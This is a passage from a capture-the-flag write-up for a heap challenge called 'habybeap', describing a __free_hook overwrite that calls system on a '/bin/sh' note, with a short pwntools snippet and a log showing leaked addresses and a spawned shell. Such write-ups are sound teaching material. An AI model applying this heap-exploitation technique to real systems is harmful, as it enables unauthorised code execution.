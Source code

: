 We added `note #15` will write the address of `system` to `__free_hook` so the next note we free will call system
with the pointer to the note.
We add `"/bin/sh\x00"` to `note #13` so that the note becomes a pointer to the string for us.
And `note #14` is just to exhaust one of the `t-cache` allocations.

Finally, we `delete` `note #13` giving us a shell :)

```python
delete_note(13)
r.interactive()
```

```
~/ctfs/volga/habybeap » python solve.py LOCAL                                                                                                                                 clasm@ctf-vm
[+] Starting local process 'habybeap_patched': pid 4747
LIBC LEAK: 0x7f73d4311000
SYSTEM: 0x7f73d4360a60
FREE HOOK: 0x7f73d44f4e20
HEAP KEY: 0x55ff1bbc6
[*] Switching to interactive mode
 $ ls
habybeap      habybeap.id1  habybeap_patched  ld.so
habybeap.i64  habybeap.id2  habybeap.til      libc.so.6
habybeap.id0  habybeap.nam  ld-2.33.so          solve.py
$
```
